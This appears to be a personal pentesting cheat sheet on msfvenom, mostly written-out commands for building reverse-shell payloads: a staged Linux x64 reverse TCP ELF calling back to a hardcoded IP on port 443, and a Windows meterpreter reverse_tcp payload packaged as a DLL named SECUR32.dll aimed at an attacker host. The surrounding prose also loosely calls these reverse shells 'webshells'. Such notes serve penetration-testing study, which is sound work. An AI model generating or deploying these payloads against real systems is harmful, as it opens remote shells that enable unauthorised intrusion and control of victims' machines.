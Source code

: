 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, terminal, shells
---
```


# msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```


## Staged payload

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile
```

After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.


## crafting a DLL file with a webshell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file
```


